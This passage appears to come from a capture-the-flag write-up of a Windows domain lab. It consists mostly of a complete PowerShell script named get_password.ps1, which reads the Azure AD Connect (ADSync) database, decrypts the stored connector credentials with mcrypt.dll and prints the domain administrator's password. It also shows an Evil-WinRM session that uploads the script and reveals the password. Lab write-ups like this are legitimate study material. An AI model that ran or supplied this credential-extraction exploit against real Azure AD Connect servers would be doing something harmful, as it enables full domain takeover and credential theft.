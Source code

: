 ```bash
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

After this edit, the final `get_password.ps1` exploit script will look like this:

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

Upload script and got adminsitrator password, then got the root file:

```bash
*Evil-WinRM* PS C:\Users\mhope\Documents> upload get_password.ps1

*Evil-WinRM* PS C:\Users\mhope\Documents> . .\get_password.ps1
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
